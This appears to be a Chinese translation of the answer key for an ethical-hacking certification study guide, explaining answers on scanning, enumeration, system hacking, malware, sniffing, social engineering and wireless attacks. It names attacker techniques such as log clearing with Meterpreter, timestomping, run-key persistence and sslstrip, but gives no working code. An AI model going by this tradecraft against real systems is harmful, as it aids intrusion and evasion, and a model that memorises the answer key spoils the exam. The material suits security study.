- 2. D. SYN 扫描发送第一个 SYN 消息，然后在从目标接收到 SYN/ACK 后响应 RST 消息。全连接扫描在发送 RST 消息前完成三次握手。由于全连接扫描遵循三次握手的正确顺序，它不会首先发送 ACK。SYN 标志也不会随 PSH 标志一起发送，因为目前还没有数据要推送到协议栈。

- 3. A. 向 UDP 端口发送消息没有定义的响应。这完全取决于应用程序。由于没有响应可能意味着消息未到达接收方，扫描系统需要对关闭端口进行重传。UDP 通常比 TCP 更快，因为开销较少，不需要消息来建立连接，并且端口数量与 TCP 相同。

- 4. C. 当系统接收到 ACK 消息（即 ACK 标志位置 1 的 TCP 段）时，它假设存在开放连接并且有待确认的数据。当没有开放连接时，没有任何内容可供响应。系统无需对 ACK 做其他处理，直接丢弃它。如果端口开放，扫描仪不会收到响应。然而，扫描仪无法确定消息是否只是被防火墙丢弃。因此，它指示端口可能是开放或被过滤的。两种情况都会导致无响应。扫描仪不是在猜测；它提供了两种可能性，但无法确定是哪一种。ACK 是在适当情况下支持的标志，ACK 扫描不会导致重传，因为无响应只意味着两种情况之一。

- 5. A. 规避是一个重要概念。你可能会花很多时间在逃避检测或避免被阻止上。由于没有开放连接的 ACK 是异常的，防火墙或 IDS 可能会忽略它，从而避免被检测。结果，你可能能够让 ACK 消息通过。ACK 扫描并没有得到更好的支持。实际上，网络协议栈对 ACK 扫描根本没有支持。nmap 中 ACK 扫描的代码并不比其他扫描更强健，或者至少没有证据表明如此。ACK 扫描不需要脚本支持。

- 6. D. 当 nmap 执行操作系统扫描时，它在操作系统内核的网络协议栈中查找指纹。nmap 将查看的一些信息位于 IP ID 字段，以查看使用了哪些数字。同样，它会查看 TCP 消息中的初始序列号，以查看那里使用了哪些数字。应用程序版本与操作系统扫描无关，也没有与网络流量关联的操作系统头部。操作系统头部可以被视为操作系统源代码的一部分，但 nmap 无法看到这些。端口 0 被视为无效端口，因此来自该端口的连接响应无关紧要。

- 7. B. nmap 的版本扫描旨在识别目标上运行的服务/应用程序的版本。内核通过操作系统扫描来识别。TCP 和 IP 头部不提供应用程序版本。IP ID 字段和 TCP 序列号字段也不提供版本信息。

- 8. C. 程序 masscan 是一个端口扫描器，类似于 nmap。然而，masscan 是为了尽可能快地扫描整个互联网而开发的。因此，如果速度是一个考虑因素，尤其是当您扫描大块地址时，masscan 可能更适合这项任务。nmap 和 masscan 都可以访问相同的地址空间，并且 masscan 在大部分情况下使用与 nmap 相同的命令行参数，因此它们同样易于使用。nmap 也比 masscan 存在的时间长得多，自 20 世纪 90 年代以来。

- 9. B. hping 是一个用于向目标发送特别设计的消息的程序。您使用命令行参数告诉 hping 要在发送的消息中包含什么。命令 hping -S -p 25 10.5.16.2 用于让 hping 向 10.5.16.2 的端口 25（默认 SMTP 端口）发送 SYN 消息。可能有人误输入了 ping，但 ping 程序不使用这些参数，并且由于这些参数对上述操作是连贯的，他们更可能是想使用 hping。SNMP 和 Web 流量都使用端口 25 以外的端口。

- 10. D. 漏洞扫描器不会利用漏洞来获取系统访问权限。它们只会在必要范围内利用漏洞以确定漏洞是否存在。如果他们不知道如何使用 Nessus 或 OpenVAS，他们可能就不会使用它们。他们可能希望比较两者的结果，但也很可能希望比较结果以减少误报。

- 11. A. 误报是指在不存在发现的情况下识别出发现。漏报是指没有识别出发现，但实际上存在漏洞。真阳性是指识别出的发现是一个漏洞。真阴性是指没有识别出发现，且没有已知漏洞。

- 12. D. 执行 ping 扫描可能有几个原因。您可能希望识别目标网络段上响应的主机。不过，您可能不希望使用全端口扫描。ICMP 是一个轻量级协议，由于用于故障排除和诊断，有机会被防火墙允许通过。

- 13. C. 您可能会被期望扫描生产服务器，因为您最希望在那里发现漏洞。提前通知运维人员是礼貌的，因为漏洞扫描可能会意外导致系统宕机，需要重新启动。半夜意外被呼叫并不有趣。如果你知道它即将到来，就会容易些。您可能有理由在扫描报告中使用有限细节，包括尝试减少使用的磁盘空间或打印报告所用的纸张。对漏洞扫描结果不采取任何行动是您在漏洞扫描方面能做的最糟糕的事情。这比不运行扫描更糟，因为您知道漏洞却不采取任何措施，可能会被认为承担责任。

- 14. B. 扫描非标准端口并非规避手段。它和扫描标准端口一样嘈杂，甚至可能更易被检测到。您可以对某些任务使用代理，但这只能隐藏您自己的 IP 地址，并非规避手段。您仍可能被阻止或检测到。Nmap 没有盲扫模式。不过，当您对数据进行编码时，防火墙或 IDS 更难识别可能发生的不良情况，因为这些设备无法读取传入的消息。

- 15. A. 隧道攻击可用于将一种协议隐藏在另一种协议内部。它们可用于通过隧道系统发送操作系统命令。DNS 放大攻击是指小型 DNS 请求导致发送给目标的大量响应。DNS 递归用于从 DNS 服务器查找信息。XML 实体注入攻击是一种基于 Web 的攻击，不会出现在 DNS 请求中。

- 16. C. XMAS 扫描是一种 TCP 扫描，它在 TCP 头部使用非典型的标志设置来尝试逃避防火墙或 IDS。XMAS 扫描使用 FIN、PSH 和 URG 标志，之所以称为 XMAS 扫描，是因为数据包看起来像圣诞树一样点亮。其他答案都不符合 XMAS 扫描的定义。

- 17. B. MegaPing 可用于执行许多不同的功能，但它不支持构建数据包、发送手动 Web 请求和运行漏洞利用。不过，它可以运行端口扫描。

- 18. D. 插件与漏洞匹配。不同的插件会识别不同的漏洞，无法更改这一点。设置扫描时可以更改扫描器设置。使用 TCP 而不是 UDP 是模糊的。如果您想更改 OpenVAS 提供的严重性评级，您可以覆盖该评级。您可能已有缓解措施，或者您可能已调查并发现该发现是误报。

- 19. C. 凭据不会使网络发现的可靠性更好，漏洞扫描器通常不提供通过 VPN 直接身份验证的方式。如果网络在 VPN 后面，预期 VPN 客户端会提前运行。Active Directory 扫描是一个模糊的答案，可能不是您可以用漏洞扫描器完成的事情。不过，如果您提供凭据，扫描器可以对网络上的系统进行身份验证并检查本地漏洞。

- 20. C. 程序 fragroute 使用配置语句来确定应对发往特定主机的数据包做什么。这可能包括分段应用程序流量以及复制和延迟流量。虽然有分段第 3 层头部的可能性，但如果第 2 层头部被分段，将无法将消息传送到目标。


### Chapter 6: Enumeration

- 1. A. 远程过程调用是一个系统上的进程与另一个系统上的进程进行通信的方式。当然，这并不排除同一系统上的两个进程进行通信。信号量是计算机科学中的另一个概念，可以实现进程间通信。远程方法调用是Java程序实现进程间通信的方式。按需分页并非如此。

- 2. C. enum4linux是一个利用其他底层工具来扫描已实现SMB的系统的工具。这意味着enum4linux可用于枚举共享或用户，以及其他信息。其他选项均无效。

- 3. D. SNMPv3实现了用户名和密码身份验证。使用版本1时，你使用的是明文社区字符串。SNMP不使用哈希，虽然_公共_一词常用于描述社区字符串，但公共字符串不是SNMPv1的身份验证方式。

- 4. C. 用于扩展邮件列表别名以获取属于该邮件列表或组的底层电子邮件地址的SMTP命令是EXPN。VRFY用于验证，其他两个不是有效的SMTP命令。

- 5. B. 实用程序dirb使用单词列表来尝试枚举通过Web服务器可用但可能无法通过查看网站上的所有页面和链接来发现的目录。

- 6. D. SNMP可用于从远程系统检索信息。这些信息必须被描述，包括不同的数据类型。所有可用信息都在管理信息库(MIB)中描述。可扩展标记语言(XML)是以结构化方式打包数据的一种方式，但它不用于SNMP。

- 7. A. 使用网络在系统间进行的进程间通信称为远程方法调用。程序为了获得动态端口分配而必须与之通信的进程是RMI注册表。这是你用来查询以识别已在实现RMI的系统上可用服务的程序。

- 8. C. 扩展SMTP(ESMTP)协议具有一个缩写为VRFY的命令，用于验证电子邮件地址。即使服务器软件支持ESMTP，邮件服务器也可能公开此命令，也可能不公开。扩展邮件列表是EXPN。你不会以同样的意义上对邮件列表使用VRFY。其他两个在SMTP协议定义中没有特定命令。

- 9. B. 服务器消息块(SMB)协议用于Windows网络上的多种功能。其中之一是将文件(数据)从一个系统传输到另一个系统。电子邮件附件将使用SMTP传输。NFS在从一个系统复制文件到另一个系统时管理其自身的数据传输。没有专门用于Windows注册表更新的数据传输。

- 10. D. 程序nmblookup可用于Linux系统。smbclient是随Samba安装附带的程序，可用于使用SMB与系统交互。Metasploit具有许多功能，但它不是Windows内置的。不过，程序nbtstat可以用于使用SMB收集信息，并且它是随Windows安装的程序。

- 11. A. 如果你的VRFY命令针对SMTP服务器失败，你将收到的状态代码是550。200是Web服务器成功的状态代码。其他代码在此上下文中无效。

- 12. B. 程序smbclient和enum4linux可用于使用SMB枚举信息。程序snmpwalk可用于通过SNMP枚举信息。不过，Nmap可用于枚举网络上所有系统上运行的服务。

- 13. D. SNMP版本1使用社区字符串。版本2c也使用社区字符串。版本2改进了版本1，但是版本3实现了基于用户的身份验证以及加密。

- 14. A. 程序wpscan可用于枚举主题、用户和插件。它不能专门用于枚举管理员。它也不能用于枚举帖子，而且由于只有一个版本，你不会枚举版本。

- 15. B. Metasploit可以通过用户创建的程序进行扩展。但是，你不会根据端口是否打开来调用Metasploit模块。Netcat不执行任何枚举，nbtstat是一个无法扩展的Windows程序。Nmap可以通过用户编写的脚本进行扩展。一个Nmap脚本包括端口注册，因此当特定端口被发现打开时，Nmap知道调用该脚本。

- 16. C. SMB依赖远程过程调用(RPC)才能运行。通用Internet文件系统(CIFS)是使用SMB实现的文件共享和系统管理。网络文件系统(NFS)是一种使用远程过程调用的协议。远程方法调用(RMI)是一种通过Java远程调用过程的方式。

- 17. D. IPC$共享是一个命名管道，用于在网络上实现进程间通信。虽然你可能可以使用IPC$共享进行一些远程管理，但它不用于远程进程管理。

- 18. B. JRE是Java运行时环境，运行Java程序所必需。JDK是Java开发工具包，开发Java程序所必需。程序jrmic用于创建RMI程序。它创建RMI运行所需的存根。rmir并不存在。

- 19. C. RMI是一种使用Java实现进程间通信的方式。由于Java是一种面向对象的编程语言，它将传输对象。SMB是服务器消息块协议。SunRPC执行远程过程调用，但传输的数据不是面向对象的。Nmap是一种用于扫描端口的程序。

- 20. A. 虽然nmap本身是一个出色的程序，可以用于跨多个服务枚举数据，但如果没有额外的帮助，它不会存储数据以供日后检索。Metasploit也可以用于跨多个服务枚举数据，并在后端使用数据库来存储数据以供日后检索。RMI是远程方法调用，一种在网络上实现进程间通信的方式。Postgresql通常是用于Metasploit的数据库服务器。Postgres是现在称为PostgreSQL的一个更早版本。

### Chapter 7: System Hacking

- 1. D. 文件元数据中常用的日期和时间戳有三个。创建文件时，会存储该时刻。用户访问文件时，会存储该时刻。修改文件时，会存储该时刻。访问不同于修改，因为访问文件可能是只读的。你可能打开一个文件期望修改它，但最终并未进行修改。访问时间仍会更改。虽然移动、添加和更改有时被称为MAC，就像修改、访问和创建一样，但这些不是与文件时间相关的任务。

- 2. A. 账户迁移、权限迁移和账户提权是模糊的，没有明确定义的定义，即使它们可能存在。另一方面，权限提权用于在你只有普通用户权限时获得提升的权限。

- 3. B. John中的增量模式将运行一个攻击，在该攻击中它会在指定参数内尝试每个可能的密码，这意味着John会生成密码。John中的默认模式是单一破解模式，它使用包括用户名和主目录在内的信息，利用变形规则生成密码。增量模式不使用字典，尽管John确实支持使用字典。

- 4. D. 彩虹表使用预先计算的哈希，这些哈希映射到明文密码，以加快从存储哈希中获取密码的过程。然而，就磁盘空间而言，彩虹表非常昂贵。哈希和密码存储在彩虹表中。使用彩虹表时，准确性既没有被牺牲也没有被优先考虑。你将放弃磁盘空间以使用彩虹表获得更快的破解时间。

- 5. C. 本地漏洞用于攻击不在网络上监听的应用程序。这意味着它们要求你在机器上是“本地”的，而不是远程的。换句话说，你必须登录到某个地方。本地漏洞不会用于收集密码；你不需要漏洞来做那件事。同样，你不需要利用漏洞来操纵日志或进行横向移动。不过，其中大多数操作需要你拥有提升的权限。本地漏洞可以被利用来获得这些提升的权限。

- 6. B. 操纵文件时间戳被称为时间戳篡改。它用于设置文件时间，这可能用于干扰调查或识别入侵。其他答案都不是真实存在的东西。

- 7. A. 备用数据流是新技术文件系统(NTFS)的一个功能，旨在支持Windows NT中Apple文件系统的资源分支。由于Windows中的许多实用程序和程序原生不理解备用数据流，它们无法使用它们也不会显示它们。如果用户知道如何显示和操作备用数据流，则可以访问该文件。


- 8. A. 你可以使用 PowerShell 脚本来执行支持系统持久化的功能，但仅 PowerShell 脚本本身不会用于维持访问权限。备用数据流对维持访问权限毫无用处，而 .vimrc 文件是 Vi 编辑器的启动文件。不过，Windows 注册表中的运行项（run key）可用于创建一个条目，以便在系统重启后自动运行程序，确保攻击者仍能获取访问权限。

- 9. D. 虽然 Tor 网络可用于获取针对漏洞的利用代码，但该利用代码的可靠性存在疑问。Tor 网络可能包含恶意内容，即使是源代码也是如此。Meterpreter 和 msfvenom 是 Metasploit 的组件，与定位漏洞无关。Exploit-DB 是一个网站和利用代码仓库，可以搜索其中的内容，以定位针对特定已知漏洞的利用代码。

- 10. C. clearev 命令是 Meterpreter 中用于清除 Windows 事件查看器日志的命令。虽然你可能能够在 Meterpreter 中操纵时间戳和日志文件，但不会为此使用 clearev 命令。clearev 命令不允许攻击者远程登录。

- 11. B. 当 Apache Web 服务器在 Linux 系统上运行时，通常以 www-data 用户身份运行。这是一个受限权限账户，会阻止攻击者在系统上执行大部分操作。要做任何事情（例如擦除日志文件或跳转到另一个网络），需要将权限提升到管理员/root 级别。在此上下文中不会利用 Web 浏览器。Web 服务器极有可能甚至没有安装 Web 浏览器。

- 12. C. 攻击者经常在系统上安装额外文件并运行额外进程。这些很容易通过人工调查或自动化检测工具被发现。绕过这一问题的方法是安装 rootkit，其中可能包含内核模式驱动程序或替换的系统实用程序，用于隐藏这些文件和进程的存在。备用数据流可用于隐藏文件，但不能隐藏进程。注册表项也可以隐藏文件，但不能隐藏进程。

- 13. B. 跳板是使用受攻破的系统在目标环境中移动到其他系统和网络的过程。跳板本身不会获得更高级别的权限或持久访问权限。你最终可能通过跳板到达数据库服务器，但那并非跳板的功能或专门用途。这可能是跳板的一个良好副作用。

- 14. B. rtgen 程序是 rcrack 工具套件的一部分。rcrack 用于利用彩虹表破解密码。rtgen 用于生成 rcrack 将用于破解密码的彩虹表。彩虹表不是字典，而是明文密码到哈希值的映射，这使得从哈希值获取密码变得容易得多。

- 15. C. 畸形数据包可能会导致服务器端失败或触发漏洞。大型 ICMP 数据包不太可能做任何事情，当然也不会利用客户端漏洞。暴力密码攻击并不是在利用漏洞，即使它是一种攻击技术。发送精心构造的 URL 可能会利用 Web 浏览器中的客户端漏洞。

- 16. A. 隐写术是将数据隐藏在其他数据（如 MP3、WAV 或视频文件等媒体文件）中的过程。备用数据流是 NT 文件系统中附加到文件名的次要数据流。rootkit 可用于隐藏进程。它可能使用进程注入，但并非进程注入的结果。当你向进程注入时，是将你创建的可执行操作放入另一个可执行文件的空间中。最终结果可能是一个运行你的代码的执行线程，且没有任何新进程名称表明它正在运行。

- 17. D. John the Ripper 用于破解密码，而 nmap 用于端口扫描。它们可能是系统攻破整体过程的一部分，但两者都不能用来攻破系统，尽管《黑客帝国》中可能暗示了这一点。searchsploit 是用于搜索本地 exploit-db 仓库的程序。Metasploit 是一个利用框架，可用于攻破系统。系统被攻破后，Metasploit 还可使用其自带的模块进行后期利用操作。

- 18. B. 在所有列出的选项中，只有 Web 浏览器存在于客户端。按定义，Web 服务器位于服务器端。Web 应用程序防火墙部署在服务器端，用于保护服务器免受应用层攻击。Web 页面托管在 Web 服务器上。它们不是客户端利用代码的目标，尽管会被用来实施这些攻击。

- 19. C. rootkit 是一种用于完成多项任务的恶意软件。这可能包括使用内核模式驱动程序或替换的系统实用程序来隐藏进程和文件。rootkit 还可能为攻击者提供后门，以便在初始攻破后长期维持对系统的访问权限。其他选项都不是 rootkit 的功能。

- 20. B. John the Ripper 和彩虹表是用于破解密码的工具，而不是用于收集或获取密码哈希的工具。进程转储可能会产生与特定进程/应用程序关联的密码。但是，你可能无法获取密码哈希，这取决于密码在内存中的存储方式。进程转储是将进程的内存空间写入磁盘以供分析。Mimikatz 是一种实用程序和 Metasploit 模块，可用于从受攻破的系统中提取密码。

### 第 8 章：恶意软件

- 1. A. C2 服务器是命令和控制服务器。这些服务器可用于对僵尸网络中的僵尸进行管理和控制。通信可能是 IRC 或 HTTP，但不一定。在僵尸网络中，这些服务器也不叫这个名字。ISC2 服务器并不存在。

- 2. C. 蠕虫和病毒都可以编写为使用多态代码，这意味着它们在传播过程中可以修改自己的外观。然而，蠕虫可以自我传播。这是蠕虫和病毒之间的唯一区别。病毒需要用户的某种干预才能传播和执行。

- 3. C. 静态分析是在不运行程序的情况下，查看可执行文件的属性并评估汇编语言代码。如果操作正确，这将限制你感染的风险，因为你并未运行程序（运行程序才会导致感染）。动态分析是可信的，如果你不运行恶意软件，它就无法部署。动态分析通常在虚拟机中进行。

- 4. D. VirusTotal 调用几十个反病毒引擎，将样本通过它们运行以识别可能的恶意软件类型。VirusTotal 是一个网站，这意味着它无法检查你的系统是否存在病毒，也无法提供任何端点防护。虽然 VirusTotal 可以识别不同反病毒解决方案为恶意软件样本赋予的名称，但要查找与该恶意软件相关的研究，你需要向反病毒供应商查询。

- 5. D. PE 文件包含可执行文件中可能存在的多个节。不过，非常常见的两个节是 .text 和 .data。.text 节包含所有可执行代码。.data 节包含所有预定义且已初始化的变量。其他答案中列出的节都不是 PE 文件的节。

- 6. B. Metasploit 可用于从有效载荷模块生成你自己的恶意软件。Empire 是另一个围绕 PowerShell 构建的利用框架。IDA Pro 是一个调试器，而 Rconsole 不存在。

- 7. A. 所有已编译的程序都是二进制形式。即使是脚本语言，在到达处理器时也是二进制形式。压缩器会使程序变小，在带宽不那么普及的早期这曾有一定价值，但压缩器不执行任何编译。压缩器不会删除空字符。不过，压缩器可以模糊实际程序代码，因为唯一的可执行函数是专门用于提取和解压缩真正恶意软件的函数。

- 8. C. 多态意为“多种形式”，意味着它具有多种外观。当程序具有多种外观时，可能导致反病毒程序将其误识别。多态代码在程序从一个系统或位置复制或移动到另一个位置时会重写程序。它并不更高效，也不有助于传播，尽管它可能是传播过程的一部分。它也不会加快编译。

- 9. B. Python 解释器执行速度可能被认为比编译程序慢，但差异微乎其微，在恶意软件方面，执行速度通常不是什么大问题。Python 不是难学的语言，而且有很多社区开发的库。不过，一个挑战是，除非你经过获取 Python 编译器并编译脚本的步骤，否则可能需要 Python 解释器。Windows 系统通常不会预装 Python 解释器。

- 10. C. Cuckoo Sandbox 是一组用于运行恶意软件并识别由此引起的系统变化的程序和基础设施。这意味着它用于恶意软件的动态分析，而非静态分析。由于它是自动化的，所以不是手动的。此外，它用于分析，而非开发。

- 11. B. 如果要进行静态分析，你需要一个能执行反汇编的工具。动态分析可以使用反汇编后的可执行文件，但该工具还需要能够执行代码。IDA 是唯一同时具备反汇编和执行功能的工具。Cutter 仅执行反汇编。PE Explorer 两者都不做，而 MalAlyzer 不存在。


- 12. A. 可执行文件包含一组二进制值，程序运行时 CPU 会将其解释为操作码（opcodes）。这些二进制值单独来看通常对人来说不太有意义。因此，使用反汇编器将 opcodes 转换为助记符，助记符是简短/缩写的单词，可以让人知道 opcode 的作用。

- 13. C. 下载器（dropper）会下载（释放）额外的文件，这些文件可能是恶意软件。它不会执行其他选项中提到的任何操作。

- 14. B. 编码器用于改变可执行文件的外观。进行此更改是为了防止防病毒程序将可执行文件识别为恶意软件。它不会编译恶意软件，也不会规避用户检测。打包器（packer）会用于压缩恶意软件。

- 15. B. 程序 msfvenom 用于将 Metasploit 的有效载荷（payload）模块转换为可执行程序。这种恶意软件可能作为毒丸（poison pill）的一部分使用，毒丸是一种防御策略，但仅从命令行很难判断这一点。虽然在该过程中恶意软件会被编码，但它并不是现成的恶意软件。这不是启动 Metasploit 的方法，尽管 msfvenom 确实使用了 Metasploit 框架。

- 16. A. 这是一个有点陷阱的问题。勒索软件可能是一种病毒，这意味着它是病毒类别的一个子集。勒索软件可能要求以比特币（Bitcoins）支付，但它不包含比特币。勒索软件在世界各地都有产生，病毒在所有操作系统上运行。

- 17. C. 木马（Trojan），也称为特洛伊木马，表面上是一种东西，但实际上是另一种。它可以诱骗用户运行恶意软件，因为用户期望的是别的东西。如果存在与可执行文件匹配的签名，木马无法规避防病毒软件。它不充当恶意软件基础设施，而且尽管它可能是多态的，但这并不是有人使用木马的原因。

- 18. B. 在尝试动态分析恶意软件时，调试器很有用，因为它允许你运行恶意软件并控制其执行。OllyDbg 是该列表中唯一的调试器。Cutter 可以进行反汇编，但不允许你运行恶意软件并控制其执行。

- 19. 客户端。恶意软件将充当客户端。客户端是发起通信的对话端。最好从网络内部发起，以便通过防火墙，防火墙可能会阻止入站通信流。

- 20. D. 防火墙可能会阻止入站通信，这就是为什么最好从内部发起通信的原因。任何方向的通信都可能被入侵检测捕获。虚拟机在此不相关，而且防病毒软件无论流量往哪个方向流动都可能捕获恶意软件，因为防病毒软件使用可执行文件而不是通信流进行检测。

### 第 9 章：嗅探

- 1. C. 不同厂商使用不同的术语来指代端口镜像。Cisco 使用交换机端口分析器（SPAN）这一术语，因此该过程有时被称为端口延展（port spanning）。

- 2. B. 表达式 host 192.168.10.5 是 BPF，表示 tcpdump 应仅捕获与 192.168.10.5 之间的数据包。如果只想获取来自或发往该地址的数据包，需要将 host 与 src 或 dest 结合使用。

- 3. D. tcpdump 在打印地址时使用 hostname/IP:port 格式。地址按 源 > 目标 的顺序排列，因此 yazpistachio.lan 是主机名，62882 是源地址上的端口。

- 4. A. 默认情况下，tcpdump 会执行名称解析。tcpdump 不仅会查找端口号并打印其服务名称，还会触发 DNS 查询。这种 DNS 查询本身就是网络流量，这意味着在大多数数据包中，数据包捕获中可能会显示 DNS 查询请求。

- 5. C. BPF 在数据链路层运行。这允许过滤到 MAC 地址。如果 BPF 在其他层运行，你将无法获取完整的数据包头集。

- 6. C. 当在没有对应 ARP 请求的情况下发送 ARP 响应时，这是一条意外或不必要的消息。这就构成了 gratuitous ARP。

- 7. C. 虽然会话和终端是可以从 Wireshark 获取的统计信息，但协议层次结构视图以分层方式显示捕获中所有协议，并显示所有协议的百分比。

- 8. D. 虽然 tcpdump 和 tshark 都可以用于捕获数据包，但 tshark 允许你指定要输出的字段。其他两个选项不存在。

- 9. C. 默认情况下，Wireshark 显示自数据包捕获开始以来的相对时间。你可以更改字段以显示绝对时间，例如一天中的时间或自 1970 年以来的时间（epoch time）。但这不是显示的内容。

- 10. D. 在帧号、时间、源 IP 和目标 IP 之后是协议。此帧显示 TCP 是正在使用的协议。

- 11. C. arpspoof 和 Ettercap 都可以用于执行 ARP 欺骗。Ettercap 还支持其他类型的欺骗攻击和插件。Sslstrip 是 Ettercap 支持的插件。Fragroute 是一个做完全不同事情的程序。

- 12. C. DNS 欺骗攻击要求程序能够看到 DNS 请求以便对其进行响应。这意味着需要有 ARP 欺骗存在，以便 Ettercap（或其他工具）可以获取网络上的流量，从而得到要响应的 DNS 请求。

- 13. A. -i 标志指示你将监听哪个接口。-n 标志告诉 Wireshark 不要执行名称解析，这样你得到的 IP 地址和端口号就是数值。

- 14. B. MAC 地址的数量可能少于第 3 层地址的数量，因为如果 IP 地址不在本地网络上，多个 IP 地址可能关联到同一个 MAC 地址；那些 IP 地址的 MAC 地址将是网关的 MAC 地址。如果一个系统向同一系统打开多个连接（例如渲染网页时可能发生），则相同的 IP 源和目标会有多个端口组合。

- 15. A. Sslstrip 用于获取明文流量。它不会删除 SSL 请求，尽管它可以用于将 HTTPS 请求转换为 HTTP 请求。它不会在 SSL 和 TLS 之间转换，无论哪个方向都没有特别优势。

- 16. B. Sslstrip 发布于 2009 年，利用了 SSL 中的问题。这些问题不仅存在于 SSL，而且还延续到了早期版本的 TLS。较新版本的 TLS 没有相同的问题，这意味着 sslstrip 不适用于它们。

- 17. A. Wireshark 显示相对序列号，这意味着就 Wireshark 向你展示而言，初始序列号是 1。相对序列号的递增方式与实际序列号相同。实际序列号是一个非常大的值，被隐藏以便于分析。

- 18. B. 你在 Wireshark 中看到的任何方括号 [] 内的内容都是 Wireshark 计算或推断的内容。它不是直接从数据包捕获中提取的。Wireshark 在协助进行数据包分析。

- 19. C. 交换机通过仅发送与拥有该 MAC 地址的系统所连接端口关联的 MAC 地址的流量来过滤流量。交换机很可靠。作为交换机，它们不支持第 3 层，尽管存在包含路由功能的多层交换机。无论哪种情况，端口延展（port spanning）都没有克服什么东西。交换机可以聚合端口，但端口延展与这无关。

- 20. B. 用于为 Ettercap 启用重定向的 ipchains/iptables 命令在另一个文件中完成。etter.dns 文件中包含主机名到 IP 地址的映射以及其他 DNS 资源记录。

### 第 10 章：社交工程

- 1. A. 生物识别是使用物理属性来提供身份验证。Smishing 是利用短信服务（SMS/短信）从人们那里收集信息。Rogue access 并不是什么真正的东西。Pretexting 是编造一个可信的故事，在尝试对某人实施社会工程攻击时可以使用。

- 2. C. 诱饵攻击是放置诱饵以收集目标。如果 U 盘或光盘中带有可以运行并以某种方式“感染”目标系统从而使你获得控制权的软件，你可以将它们作为诱饵散落在周围。虽然所有其他选项都与社会工程相关，但没有一个被称为诱饵攻击。


### 第 11 章：无线安全

- 3. B. 当因为看到其他人从事某种行为，就认为从事该行为是可以接受时，社会认同正在发挥作用。当人们看到一队人在等待获取 USB 存储棒，尽管知道不应该信任 USB 存储棒，他们可能会倾向于降低防范。这里没有互惠或权威。最终可能会出现稀缺，但那并不是驱使人们排队获取潜在危险物品的原因。

- 4. D. 生物识别和徽章访问是物理访问控制的形式。电话验证可能可用于验证身份，但无法防止尾随。然而，人陷阱可以防止尾随，因为人陷阱一次只允许一个人进入。

- 5. B. 尤其是在企业中，通常会发生某种身份验证。这可能采用预共享密钥或用户名/密码组合的形式。无论如何，当你对无线网络进行社会工程学攻击时，可能试图收集凭据以获取对网站的访问权限。不太可能使用此向量发送网络钓鱼消息或获取电子邮件地址，也不会用于拨打电话。

- 6. D. 尽管你可能在模仿某人，但模仿不是社会工程学原则。在这种情况下，社会认同和稀缺性都未发挥作用。然而，如果你是从帮助台打电话，可能会被认为处于权威地位。

- 7. B. 手动执行攻击是否能更好地控制结果还有待商榷。使用自动化攻击并不会比手动执行更能实施社会认同或展示权威。不过，手动执行会降低复杂性，因为手动操作意味着你需要设置和控制多个环节。这会变得非常复杂，如果处理不当，攻击就会失败。

- 8. A. 语音钓鱼和短信钓鱼是社会工程学的非动能方法。稀缺性不是社会工程学向量。冒充是一种社会工程学向量，也是用于未经授权进入设施的向量。

- 9. C. 如果你冒充前同事发送电子邮件，可能正在实施几种不同的社会工程学原则。因为你有一个故事和一种欺诈性收集信息的手段，所以你正在使用预文本。其他攻击也是社会工程学，但它们不是预文本。

- 10. C. wget 是这些选项中唯一合法的程序，可用于克隆网站。

- 11. B. 虽然有些人使用环氧树脂封住 USB 端口以防止插入 USB 存储棒，但这不是好方法，而且如果诱饵是 CD-ROM，这也不一定能阻止诱饵攻击生效。浏览互联网很常见，不再这样做也无法防范诱饵攻击。在这种语境下，注册表克隆并非真实存在的事物。禁用自动运行可以防止来自外部设备的恶意软件自动运行。

- 12. D. 误接受率衡量生物识别系统允许未经授权的用户进入设施或区域的频率。误失败（或拒绝）率会带来不便，一些组织可能会将其视为问题，尤其是当其很高时。然而，高误接受率可能更令人担忧，因为你允许真正未经授权的人员获得访问权限。其他两项不是被衡量的统计数据；尽管它们与其他项相关，但不称为误正率或误负率。

- 13. A. 声纹识别是这些选项中最不可靠的。因此，它最可能导致高误拒率，从而降低真接受率。

- 14. D. 近距离卡可能导致尾随，但不是唯一原因——钥匙也可能导致尾随。从技术上讲，也不是卡片本身允许尾随，而是门的配置和实现方式。网络钓鱼与此无关，从技术上讲，凭证窃取也与此无关。近距离卡，特别是使用 RFID 标签的卡片，容易被克隆。

- 15. C. 虽然视网膜和葡萄膜也是眼的一部分，但它们都不包围瞳孔，也不能用作识别手段。指纹不是眼的一部分。

- 16. A. 误接受率意味着允许未经授权的人进入。如果你是获授权人员，但生物识别扫描仪工作不可靠并拒绝了你，你可能需要致电安保或其他人员让你进入大楼。其他两项都不是高误失败率的结果。它们可能是其他问题的解决方案，但不是高误失败率。

- 17. B. 短信钓鱼是指某人发送短信试图欺诈性地收集信息。语音钓鱼是电话（语音）呼叫。网络钓鱼可以是一个总称，但通常指电子邮件。冒充更多是一种物理方法。

- 18. A. 预文本可以通过电子邮件和电话一样有效。人们拥有电子邮件比拥有电话更常见，尤其是公司固定电话。网络钓鱼攻击非常成功，这就是为什么它们被广泛使用。然而，通过电话，你可以更详细地解释，并在问题或担忧出现时加以解决。你可以包含电子邮件无法实现的额外层次，因为你永远无法确定电子邮件是否被阅读、删除或被拦截。

- 19. B. 门户页面是连接到公共接入点时打开的页面。其他选项都不是真实存在的事物。

- 20. C. 你最终可能会获得对远程系统的 Meterpreter 接口，但它不会用于生成攻击。Wifihisher 仅用于基于 Wi-Fi 的攻击，Social Automator 不存在。社会工程师工具包（Social-Engineer Toolkit，SE Toolkit）可用于自动化电子邮件攻击以及无线攻击。

- 1. D. 基础设施无线网络是使用接入点的网络。自组织无线网络由参与者组织。这是两种无线网络类型。星型、环型、总线型和混合型均为有线拓扑。

- 2. B. WPA 握手使用四个阶段。这个四阶段过程用于推导密钥并就功能达成一致。

- 3. B. 混杂模式用于网络接口以收集不发往该接口的帧。在无线网络上这不够，因为未捕获无线电头。要捕获无线电头，除了始终设置为获取所有帧和帧中所有信息的混杂模式外，还需要启用监听模式。只有监听模式提供无线电头。

- 4. C. 嗅探可用于收集发起无线攻击所需的信息。去认证攻击可用于强制工作站生成流量。双胞胎攻击使用恶意接入点冒充合法网络。要解密网络流量，需要密钥。获取密钥的一种方法是重用从生成已知密钥的网络流量中获取的信息。这就是密钥重装攻击。

- 5. C. 蓝牙不使用端口。虽然配置文件很重要，但在配对过程中会获取配置文件功能。仅执行扫描无法获得支持的配置文件列表。虽然在运行蓝牙扫描过程中应该能够识别供应商，但这不是扫描的目的。目的是识别端点及其关联地址，以便对它们执行其他攻击。

